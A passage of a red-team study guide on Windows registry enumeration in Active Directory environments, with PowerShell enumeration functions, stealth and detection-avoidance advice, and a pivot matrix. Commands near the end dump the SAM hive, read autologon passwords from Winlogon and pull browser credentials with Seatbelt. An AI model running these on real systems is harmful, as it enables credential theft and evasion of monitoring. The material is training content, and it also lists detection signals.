                    if ($serviceInfo.DisplayName) {
                        $service = @{
                            Name = $serviceInfo.DisplayName
                            ServiceName = $key.PSChildName
                            StartType = $serviceInfo.Start
                            ImagePath = $serviceInfo.ImagePath
                            Description = $serviceInfo.Description
                            RegistryPath = $key.PSPath
                        }
                        
                        $windowsServices += $service
                        
                        # Display service information
                        $displayName = if ($serviceInfo.DisplayName.Length -gt 40) { 
                            $serviceInfo.DisplayName.Substring(0, 37) + "..." 
                        } else { 
                            $serviceInfo.DisplayName 
                        }
                        
                        Write-Host "  $displayName" -ForegroundColor White
                        Write-Host "    Service Name: $($key.PSChildName)" -ForegroundColor Gray
                        Write-Host "    Start Type: $($serviceInfo.Start)" -ForegroundColor Gray
                    }
                    
                }
                catch {
                    # Skip this service entry
                }
            }
            
        }
        catch {
            Write-Host "  Services path not accessible" -ForegroundColor Red
        }
        
        Write-Host ""
        Write-Host "Total services found: $($windowsServices.Count)" -ForegroundColor Green
        
        # Look for interesting services
        $interestingServices = $windowsServices | Where-Object { 
            $_.Name -like "*admin*" -or 
            $_.Name -like "*security*" -or 
            $_.Name -like "*monitor*" -or
            $_.Name -like "*backup*" -or
            $_.Name -like "*remote*" -or
            $_.Name -like "*agent*"
        }
        
        if ($interestingServices.Count -gt 0) {
            Write-Host ""
            Write-Host "Interesting Services Found:" -ForegroundColor Yellow
            foreach ($service in $interestingServices) {
                Write-Host "  ⚠ $($service.Name) - $($service.ServiceName)" -ForegroundColor Yellow
            }
        }
        
        return $windowsServices
    }
    catch {
        Write-Warning "Windows services enumeration failed: $($_.Exception.Message)"
        return @()
    }
}

# Enumerate Windows services
$windowsServices = Get-WindowsServices
```

## User Profile Analysis

### 1. User Profile Enumeration
```powershell
# Enumerate user profiles from registry
function Get-UserProfiles {
    try {
        Write-Host "Enumerating user profiles..." -ForegroundColor Yellow
        
        $userProfiles = @()
        
        # User profile registry path
        $profilePath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList"
        
        try {
            $profileKeys = Get-ChildItem -Path $profilePath -ErrorAction SilentlyContinue
            
            Write-Host "Found $($profileKeys.Count) user profiles" -ForegroundColor Cyan
            
            foreach ($key in $profileKeys | Select-Object -First 20) {
                try {
                    $profileInfo = Get-ItemProperty -Path $key.PSPath -ErrorAction SilentlyContinue
                    
                    if ($profileInfo.ProfileImagePath) {
                        $profile = @{
                            SID = $key.PSChildName
                            ProfilePath = $profileInfo.ProfileImagePath
                            UserName = Split-Path $profileInfo.ProfileImagePath -Leaf
                            RegistryPath = $key.PSPath
                            LastUseTime = $profileInfo.LastUseTime
                        }
                        
                        $userProfiles += $profile
                        
                        # Display profile information
                        Write-Host "  $($profile.UserName)" -ForegroundColor White
                        Write-Host "    Profile Path: $($profile.ProfilePath)" -ForegroundColor Gray
                        Write-Host "    SID: $($profile.SID)" -ForegroundColor Gray
                    }
                    
                }
                catch {
                    # Skip this profile
                }
            }
            
        }
        catch {
            Write-Host "  Profile list not accessible" -ForegroundColor Red
        }
        
        Write-Host ""
        Write-Host "Total user profiles found: $($userProfiles.Count)" -ForegroundColor Green
        
        return $userProfiles
    }
    catch {
        Write-Warning "User profile enumeration failed: $($_.Exception.Message)"
        return @()
    }
}

# Enumerate user profiles
$userProfiles = Get-UserProfiles
```

### 2. User-Specific Registry Analysis
```powershell
# Analyze user-specific registry settings
function Analyze-UserRegistry {
    param([array]$UserProfiles)
    
    try {
        Write-Host "Analyzing user-specific registry settings..." -ForegroundColor Yellow
        
        $userRegistryAnalysis = @{}
        
        foreach ($profile in $UserProfiles | Select-Object -First 5) {
            Write-Host "Analyzing user: $($profile.UserName)" -ForegroundColor Cyan
            
            $userRegPath = "Registry::HKEY_USERS\$($profile.SID)"
            
            try {
                # Check for interesting user registry areas
                $interestingPaths = @(
                    "Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU",
                    "Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\OpenSavePidlMRU",
                    "Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs",
                    "Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist"
                )
                
                $userAnalysis = @{
                    UserName = $profile.UserName
                    SID = $profile.SID
                    RegistryAccessible = $false
                    InterestingKeys = @()
                }
                
                foreach ($path in $interestingPaths) {
                    $fullPath = "$userRegPath\$path"
                    
                    try {
                        $key = Get-ChildItem -Path $fullPath -ErrorAction SilentlyContinue
                        
                        if ($key) {
                            $userAnalysis.InterestingKeys += @{
                                Path = $path
                                KeyCount = $key.Count
                                Accessible = $true
                            }
                            
                            Write-Host "  ✓ $path - $($key.Count) keys" -ForegroundColor Green
                        }
                    }
                    catch {
                        # Path not accessible
                    }
                }
                
                if ($userAnalysis.InterestingKeys.Count -gt 0) {
                    $userAnalysis.RegistryAccessible = $true
                    $userRegistryAnalysis[$profile.UserName] = $userAnalysis
                }
                
            }
            catch {
                Write-Host "  User registry not accessible: $($profile.UserName)" -ForegroundColor Red
            }
        }
        
        Write-Host ""
        Write-Host "User registry analysis completed" -ForegroundColor Green
        
        return $userRegistryAnalysis
    }
    catch {
        Write-Warning "User registry analysis failed: $($_.Exception.Message)"
        return @{}
    }
}

# Analyze user registry
$userRegistryAnalysis = Analyze-UserRegistry -UserProfiles $userProfiles
```

## Configuration Analysis and Assessment

### 1. Security Configuration Scoring
```powershell
# Score security configurations
function Score-SecurityConfigurations {
    param(
        [hashtable]$PasswordPolicies,
        [hashtable]$LockoutPolicies,
        [hashtable]$SecurityOptions
    )
    
    try {
        Write-Host "Scoring security configurations..." -ForegroundColor Yellow
        
        $securityScore = 10
        $vulnerabilities = @()
        $recommendations = @()
        
        # Password policy scoring
        foreach ($path in $PasswordPolicies.Keys) {
            $policy = $PasswordPolicies[$path]
            
            if ($policy.MinimumPasswordLength -lt 8) {
                $securityScore -= 2
                $vulnerabilities += "Weak password length: $($policy.MinimumPasswordLength) characters"
                $recommendations += "Increase minimum password length to 8+ characters"
            }
            
            if ($policy.PasswordComplexity -eq 0) {
                $securityScore -= 2
                $vulnerabilities += "Password complexity disabled"
                $recommendations += "Enable password complexity requirements"
            }
            
            if ($policy.PasswordHistory -eq 0) {
                $securityScore -= 1
                $vulnerabilities += "No password history requirement"
                $recommendations += "Enable password history (24+ passwords)"
            }
        }
        
        # Lockout policy scoring
        foreach ($path in $LockoutPolicies.Keys) {
            $policy = $LockoutPolicies[$path]
            
            if ($policy.LockoutThreshold -eq 0) {
                $securityScore -= 3
                $vulnerabilities += "Account lockout disabled"
                $recommendations += "Enable account lockout (3-5 attempts)"
            } elseif ($policy.LockoutThreshold -gt 10) {
                $securityScore -= 1
                $vulnerabilities += "High lockout threshold: $($policy.LockoutThreshold)"
                $recommendations += "Reduce lockout threshold to 3-5 attempts"
            }
        }
        
        # Security options scoring
        foreach ($path in $SecurityOptions.Keys) {
            $options = $SecurityOptions[$path]
            
            if ($options.RestrictAnonymous -eq 0) {
                $securityScore -= 2
                $vulnerabilities += "Anonymous access allowed"
                $recommendations += "Restrict anonymous access to SAM and shares"
            }
            
            if ($options.NoLMHash -eq 0) {
                $securityScore -= 1
                $vulnerabilities += "LM hashes stored for backward compatibility"
                $recommendations += "Disable LM hash storage"
            }
        }
        
        # Ensure score doesn't go below 0
        $securityScore = [math]::Max(0, $securityScore)
        
        # Display scoring results
        Write-Host ""
        Write-Host "Security Configuration Scoring:" -ForegroundColor Cyan
        Write-Host "  Overall Score: $securityScore/10" -ForegroundColor $(if ($securityScore -ge 7) { "Green" } elseif ($securityScore -ge 4) { "Yellow" } else { "Red" })
        Write-Host "  Vulnerabilities Found: $($vulnerabilities.Count)" -ForegroundColor $(if ($vulnerabilities.Count -eq 0) { "Green" } else { "Red" })
        
        if ($vulnerabilities.Count -gt 0) {
            Write-Host ""
            Write-Host "Vulnerabilities:" -ForegroundColor Red
            foreach ($vuln in $vulnerabilities) {
                Write-Host "  ⚠ $vuln" -ForegroundColor Red
            }
            
            Write-Host ""
            Write-Host "Recommendations:" -ForegroundColor Yellow
            foreach ($rec in $recommendations | Select-Object -Unique) {
                Write-Host "  ✓ $rec" -ForegroundColor Yellow
            }
        }
        
        return @{
            SecurityScore = $securityScore
            Vulnerabilities = $vulnerabilities
            Recommendations = $recommendations
        }
        
    }
    catch {
        Write-Warning "Security configuration scoring failed: $($_.Exception.Message)"
        return @{
            SecurityScore = 0
            Vulnerabilities = @()
            Recommendations = @()
        }
    }
}

# Score security configurations
$securityScoring = Score-SecurityConfigurations -PasswordPolicies $passwordPolicies -LockoutPolicies $lockoutPolicies -SecurityOptions $securityOptions
```

## OPSEC Considerations

### 1. Stealth Techniques
- **Gradual Enumeration**: Spread registry queries over time to avoid detection
- **Targeted Enumeration**: Focus on specific registry areas rather than broad scanning
- **Normal User Context**: Use regular user accounts when possible to blend in
- **Limited Scope**: Focus only on necessary registry information

### 2. Detection Avoidance
- **Event Logging**: Be aware of registry access events (Event ID 4656, 4657)
- **Audit Policies**: Consider registry audit policies that may log access
- **Query Patterns**: Avoid predictable registry access patterns
- **Response Analysis**: Analyze responses for anomalies that might indicate monitoring

### 3. Event IDs to Monitor
- **4656**: Handle to an object was requested (registry access)
- **4657**: A registry value was modified
- **4658**: A registry value was deleted
- **4660**: An object was deleted
- **4663**: An attempt was made to access an object

## Best Practices

### 1. Registry Enumeration
- **Scope Definition**: Clearly define enumeration scope before starting
- **Tool Selection**: Choose appropriate tools for the environment
- **Documentation**: Document all enumeration activities and findings
- **Validation**: Verify discovered registry information through multiple sources

### 2. Security Analysis
- **Configuration Review**: Thoroughly review registry configurations
- **Vulnerability Assessment**: Identify security weaknesses systematically
- **Documentation**: Document all security findings and recommendations
- **Reporting**: Generate comprehensive security reports with actionable items

### 3. Operational Security
- **Credential Protection**: Never hardcode credentials in scripts
- **Session Security**: Use encrypted sessions when possible
- **Access Control**: Ensure proper access controls are in place
- **Audit Logging**: Maintain audit logs of registry operations

## Related Objects
- [Computer Enumeration](./07_Computer_Enumeration.md)
- [User Enumeration](./05_User_Enumeration.md)
- [PowerShell Remoting Enumeration](./19_PowerShell_Remoting_Enumeration.md)
- [WMI Enumeration](./20_WMI_Enumeration.md)

## Navigation
- [Master Index](../00_MASTER_INDEX.md)
- [Enumeration Index](./00_Enumeration_Index.md)

## See Also
- [Kerberos Enumeration](./23_Kerberos_Basic_Enumeration.md)
- [Time Based Enumeration](./21_Time_Based_Enumeration.md)
- [Forest Enumeration](./30_Forest_Enumeration.md)

---

**Tags**: #RegistryEnumeration #ActiveDirectory #AD #Enumeration #WindowsRegistry #SecurityAnalysis #ConfigurationEnumeration

**Tags**: #RegistryEnumeration #ActiveDirectory #AD #CRTP

---

## At‑a‑Glance

### Command Quick‑Reference
| Tool | Purpose | Example | Notes |
| - | - | - | - |
| reg.exe query | Read keys | reg query HKLM\SYSTEM\CurrentControlSet\Services | Native
| Get-ItemProperty | Read values | Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft' | PS signed
| Get-ACL | Registry ACL | Get-Acl 'HKLM:\SYSTEM\...' | Rights map
| reg.exe save | Hive export | reg save HKLM\SAM C:\Temp\sam.hiv | Requires admin
| Get-ChildItem | Walk keys | gci 'HKCU:\Software' -Recurse -Depth 2 | Scoped

### Pivot Matrix
| Finding | Pivot To | Goal |
| - | - | - |
| Autologon creds | 05_User_Enumeration.md | Credential use
| RDP/WinRM toggles | 19_PowerShell_Remoting_Enumeration.md | Remote access
| LAPS policy refs | 08_GPO_Enumeration.md | Secret retrieval
| Service configs | 07_Computer_Enumeration.md | Lateral footholds
| Installed software | 28_SQL_Server_Enumeration.md | App targeting

### Stealth Profiles
| Profile | Scope | Delay (jitter) | Method |
| - | - | - | - |
| Stealth | Specific keys | 4–8 s | Native/AD‑signed
| Balanced | Targeted trees | 2–5 s | Mixed
| Lab | Full hives | 1–3 s | Bulk reads

## Fictional Use Case: CyberCorp (Progressive Storyline)
**User Persona**: Victor Nguyen, Endpoint Engineer (Limited User Account)
**Progression**: From targeted key reads to config mapping and pivot selection

```powershell
# Phase 1: Targeted keys (stealth)
reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

# Phase 2: Signed PowerShell reads
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion' |
  Select-Object ProductName,CurrentBuild,InstallDate

# Phase 3: Service config map
Get-ChildItem 'HKLM:\SYSTEM\CurrentControlSet\Services' | Select -First 50
```

## Canonical Registry Reads (Native + PS)
```powershell
# Autologon clues
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

# RDP enablement
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# WinRM
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMan\Service" /v AllowAutoConfig

# PS signed equivalents
Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' | Select fDenyTSConnections
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMan\Service' | Select *
```

### Findings → Pivots


## Registry Enumeration Architecture


## Lab vs Production
- Stealth: read only; no hive exports; scope keys; signed cmdlets.
- Balanced: add reg.exe for specific values; no saves; cache outputs.
- Lab: hive exports allowed; breadth scans; full exports to offline parse.

## Detection (concise)
- Signals: reg.exe save; repeated hive traversal; remote registry service use.
- Heuristics: access to Winlogon, SAM, SECURITY hives.

## OPSEC (concise)
- Prefer signed cmdlets; limit depth; avoid hive export in prod; randomize timing.

## Cleanup
```powershell
Remove-Item C:\Temp\*.hiv -ErrorAction SilentlyContinue
```

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### **🔧 Microsoft-Signed Tools**
- **Microsoft AD Module**: Context (computers/users) to pivot registry triage
- **Get-ADComputer**: Scope hosts for registry queries
- **Get-ADUser**: Identify users to correlate with profile hives
- **Get-ADGroup**: Map admin/operator groups for privilege context

### **⚔️ Offensive Tools (PowerView, etc.)**
- **PowerView Suite**: Host discovery and credential artifacts correlation
- **Get-DomainComputer**: Build target sets for registry checks
- **Find-InterestingDomainShareFile**: Pivot to registry-related files (LAPS backups, etc.)

### **🔴 Red Team Enumeration Tools**

#### **Native Tools - reg.exe / PowerShell Provider**
Primary Commands and Explanations:
```cmd
:: Query a product name (quick environment fingerprint)
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProductName

:: Recursively list uninstall keys (software inventory)
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" /s

:: Export a key for offline review (forensic/OPSEC)
reg export "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" C:\temp\winver.reg
```
```powershell
# Read a specific value safely (suppress errors to keep quiet)
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" -Name "MinimumPasswordLength" -ErrorAction SilentlyContinue

# Enumerate subkeys with depth control (fast triage)
Get-ChildItem -Path "HKLM:\SOFTWARE" -Recurse -Depth 2
```

#### **SharpView/Seatbelt - Situational Awareness**
Primary Commands and Explanations:
```cmd
# Seatbelt modules relevant to registry triage
Seatbelt.exe System
Seatbelt.exe Chromium   # Browser creds/paths
Seatbelt.exe LAPS       # LAPS presence
Seatbelt.exe UAC        # UAC policy
Seatbelt.exe AMSI       # AMSI config
Seatbelt.exe RecycleBin # Possible exfil clues
```

#### **CrackMapExec (CME)**
Primary Commands and Explanations:
```bash
# Execute a remote registry query via WMI/SMB (opsec varies by backend)
crackmapexec smb targets.txt -u username -p password --exec-method wmi "reg query HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion /v ProductName"
```

### **🛠️ Alternative Enumeration Tools**

#### **RegRipper / Registry Explorer**
- Use for offline hive analysis; export via `reg save` or VSS snapshots.

---

## Cross‑References
- Next: [19_PowerShell_Remoting_Enumeration.md](./19_PowerShell_Remoting_Enumeration.md)
- Related: [07_Computer_Enumeration.md](./07_Computer_Enumeration.md), [08_GPO_Enumeration.md](./08_GPO_Enumeration.md)

---

[Prev: 17_File_Share_Enumeration.md](./17_File_Share_Enumeration.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 19_PowerShell_Remoting_Enumeration.md](./19_PowerShell_Remoting_Enumeration.md)
